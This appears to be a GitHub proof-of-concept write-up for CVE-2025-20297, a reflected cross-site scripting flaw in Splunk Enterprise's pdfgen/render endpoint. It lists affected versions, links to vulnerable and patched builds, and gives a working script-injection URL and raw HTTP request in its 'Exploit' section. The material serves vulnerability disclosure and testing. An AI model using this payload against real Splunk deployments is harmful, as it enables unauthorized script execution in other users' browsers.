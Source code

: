 ## CVE-2025-20297
## VULNERABILITY DETAILS
Reflected Cross-Site Scripting (XSS) on Splunk Enterprise through dashboard PDF generation component

## Description
In Splunk Enterprise versions below 9.4.2, 9.3.4 and 9.2.6, and Splunk Cloud Platform versions below 9.3.2411.102, 9.3.2408.111 and 9.2.2406.118, a low-privileged user that does not hold the “admin” or “power” Splunk roles could craft a malicious payload through the pdfgen/render REST endpoint that could result in execution of unauthorized JavaScript code in the browser of a user.

## VULNERABILITY
splunk-9.3.0-51ccf43db5bd-linux-2.6-amd64 (tested)

## Diff splunk-9.3.0-51ccf43db5bd-linux-2.6-amd64 VS splunk-9.3.4-30e72d3fb5f7-linux-2.6-amd64
Download: https://download.splunk.com/products/splunk/releases/9.3.0/linux/splunk-9.3.0-51ccf43db5bd-linux-2.6-amd64.deb

Download: https://download.splunk.com/products/splunk/releases/9.3.4/linux/splunk-9.3.4-30e72d3fb5f7-linux-2.6-amd64.deb

![image](https://github.com/user-attachments/assets/28686a3c-3b89-4ffb-94f7-205276b7ae73)


## Exploit:
Require login => execute javascript
```
http://<Host>:8000/en-US/splunkd/__raw/services/pdfgen/render?type=<script>alert(document.domain)</script>

```
```
GET /services/pdfgen/render?type=<script>alert(document.domain)</script> HTTP/1.1
Host: <Host>:8089
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Authorization: Basic username:password
```


https://github.com/user-attachments/assets/5d08ed56-0a1b-42f2-8b99-f8e0aaac782d




## References:
- https://advisory.splunk.com/advisories/SVD-2025-0601
- https://nvd.nist.gov/vuln/detail/CVE-2025-20297
- https://www.fosstechnix.com/how-to-install-splunk-on-ubuntu-24-04-lts/
- https://docs.splunk.com/Documentation/Splunk/7.0.3/Troubleshooting/FSLockingIssues#Splunk_Enterprise_does_not_start_due_to_unusable_filesystem
